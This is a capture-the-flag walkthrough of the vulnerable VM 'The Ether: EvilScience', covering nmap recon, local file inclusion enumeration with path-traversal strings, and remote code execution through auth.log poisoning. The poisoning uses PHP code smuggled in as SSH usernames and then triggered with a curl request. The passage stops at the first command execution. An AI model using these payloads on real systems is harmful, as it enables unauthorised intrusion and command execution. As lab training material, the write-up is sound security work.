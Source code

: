 # The Ether: EvilScience v1.0.1

This one immediately caught my attention for a number of reasons. For one thing, it has a plot - which always makes trying to get into a machine a bit more fun. It also purports to be very difficult:

`
This challenge is not for beginners. There is a relevant file on this machine that plays an important role in the challenge, do not waste your time trying to de-obfuscate the file, I say this to keep you on track. This challenge is designed test you on multiple areas and it’s not for the feint of heart!
`

The VM is available [here](https://www.vulnhub.com/entry/the-ether-evilscience-v101,212/) and is honestly the most challenging and enjoyable vulnerable VM I have attempted so far. It was strongly reminiscent of some of the harder OSCP labs, and I had a lot of fun doing it. All told, I would say that it took me about half a day to complete.

## Getting Started

As per usual, I began by running `netdiscover` to find the system on my host-only network. Then I ran a quick NMap scan:

```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-04-16 20:01 BST
Nmap scan report for 192.168.56.101
Host is up (0.00028s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
MAC Address: 08:00:27:86:D1:5D (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Pretty standard results. We have an SSH server and a HTTP server to look at.

## The Ether

Visiting the webserver reveals a pretty standard website based on a template. It's built on PHP and consists of only a few pages, built on a free template called Carinary. Googling around for vulnerabilities related to the template or software versions produced little in the way of results, so I decided to poke around the server itself. It didn't take long, as there is very little functionality available to interact with.

The only thing that stood out to me was the URI. When you visit any page other than the homepage, you get a URL that looks something like this:

`http://192.168.56.101/index.php?file=research.php`

Obviously, the alarm bells immediately went off in my head: "LFI! LFI! LFI"!. It seems like a classic vector for file inclusion. To test whether this is indeed the case, I decided to download the Carinary template myself and have a look at what files it contains. After a couple false starts, I tried this:

`http://192.168.56.101/index.php?file=layout/styles/layout.css`

As we may have expected, this dumps the contents of the layout.css file at the top of our index.php page. It seems we have successful file inclusion - the question is, how can we leverage it to compromise the system?

## Enumerating the LFI

I decided to play around with the LFI a bit more to see what the limitations of my ability to read files is:

```
file=layout/styles/layout.css - successful file inclusion
file=../../../../../../../../../../../../../../../../../../../bin/ls = works
file=../../../../../../../../../../../../../../../../../../../etc/passwd = does not work
file=../../../../../../../../../../../../../../../../../../../var/www/html/index.html = default page
file=../../index.html = apache default page
file=/bin/ls = works
```

This confirms that I can include a variety of files - but not all of them. Some files I would expect to be able to access, like /etc/passwd and /etc/issue, are not accessible to - indicating that whole directories are out of the question. I also found that a lot of the files and directories I would normally use to get PHP code execution are not available, including:

* /var/log/apache2/access.log (and variants)
* /var/log/apache2/error.log (and variants)
* /proc/self/environ
* The php:// scheme is available, but does not seem to work for sending code via POSTDATA.
* The data:// scheme is available, but also does not seem to work for code inclusion.

At this point, getting frustrated, I started going through every file I thought that *may* be accessible. Finally, after a good hour or so of enumeration, I discovered a log file that I have the ability to read: `/var/log/auth.log`. Although special characters in the file caused by browser to get confused, I could access it with curl:

`curl "http://192.168.56.101/index.php?file=/var/log/auth.log"`

This file keeps a rolling record of attempts to login via SSH; including it gives us access to the contents of the file:

```
Nov 23 19:49:48 theEther sudo: pam_unix(sudo:session): session closed for user root
Nov 23 19:49:53 theEther login[842]: pam_unix(login:session): session closed for user evilscience
Nov 23 19:49:53 theEther systemd-logind[782]: Removed session 1.
Nov 23 19:50:00 theEther sshd[872]: Received signal 15; terminating.
Apr 19 16:02:53 theEther systemd-logind[701]: New seat seat0.
Apr 19 16:02:53 theEther systemd-logind[701]: Watching system buttons on /dev/input/event0 (Power Button)
Apr 19 16:02:53 theEther systemd-logind[701]: Watching system buttons on /dev/input/event1 (Sleep Button)
Apr 19 16:02:53 theEther systemd-logind[701]: Watching system buttons on /dev/input/event3 (Video Bus)
Apr 19 16:02:54 theEther sshd[752]: Server listening on 0.0.0.0 port 22.
Apr 19 16:02:54 theEther sshd[752]: Server listening on :: port 22.
Apr 19 16:02:54 theEther sshd[752]: Received SIGHUP; restarting.
Apr 19 16:02:54 theEther sshd[752]: Server listening on 0.0.0.0 port 22.
Apr 19 16:02:54 theEther sshd[752]: Server listening on :: port 22.
Apr 19 16:02:54 theEther sshd[752]: Received SIGHUP; restarting.
Apr 19 16:02:54 theEther sshd[752]: Server listening on 0.0.0.0 port 22.
Apr 19 16:02:54 theEther sshd[752]: Server listening on :: port 22.
Apr 19 16:04:59 theEther sshd[1067]: Invalid user test from 192.168.56.102
Apr 19 16:04:59 theEther sshd[1067]: input_userauth_request: invalid user test [preauth]
Apr 19 16:05:01 theEther sshd[1067]: Connection closed by 192.168.56.102 port 35362 [preauth]
Apr 19 16:05:27 theEther sshd[1069]: Invalid user  from 192.168.56.102
Apr 19 16:05:27 theEther sshd[1069]: input_userauth_request: invalid user  [preauth]
Apr 19 16:05:29 theEther sshd[1069]: Connection closed by 192.168.56.102 port 35366 [preauth]
```

## Getting RCE

It is possible to use the auth.log file to inject PHP code into a page, but it is not easy. Every time a nonexistent user tries and fails to connect via SSH, their username gets logged into the file and remains there until it rolls over. If we're careful with the number of characters we use and make sure to escape shell characters, we can use this property to get very short snippets of PHP code into the auth log.

The first step is to enumerate just how many characters we have to work with. After all, we only get one shot at this. If we inject a PHP snippet and it gets cut off before we get a chance to close it, the entire auth.log file will be useless to us until it rolls over. So I tried:

`ssh "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@192.168.56.101"`

By examining how many characters of the username made it into the included auth.log file, I was able to ascertain my character limit: 30 characters. This is difficult to work with, but doable. Next I tried injecting a simple PHP snippet to test that injection is actually possible

`ssh "<?php echo 'test'; ?>"@192.168.56.101`

This worked, and I could see the word "test" appearing in the contents of auth.log. After a little tinkering on my own machine to avoid breaking auth.log, I came up with the following series of injections:

```
ssh "<?php \$a=\$_GET['a']?>"@192.168.56.101
ssh "<?php echo system(\$a)?> "@192.168.56.101
```

I was able to test this with the following curl command:

`curl "http://192.168.56.101/index.php?file=/var/log/auth.log&a=ls"`

This worked, giving me access to the contents of the `/var/www/html/theEther.com/public_html/` directory.
